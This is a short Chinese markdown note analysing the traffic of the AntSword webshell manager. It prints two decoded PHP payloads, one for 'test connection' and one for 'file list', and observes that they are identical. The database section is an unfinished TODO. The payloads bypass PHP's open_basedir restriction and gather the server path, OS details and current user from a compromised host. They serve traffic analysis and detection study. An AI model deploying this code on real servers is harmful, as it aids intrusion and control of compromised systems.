


# antSword 蚁剑 操作 流量解析

## 测试连接



```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.b2d3d8e63";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "da" . "769";
    echo @asenc($output);
    echo "1bc" . "f96b";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "{$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```

## 读取文件列表



```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.2a020cb4f029";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "1fa" . "ac65";
    echo @asenc($output);
    echo "57" . "324";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "{$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```

可以看出，实际上 ` 测试连接 ` 和 ` 文件管理 ` 的流量行为是一致的

## 数据库连接

TODO 蚁剑 数据库连接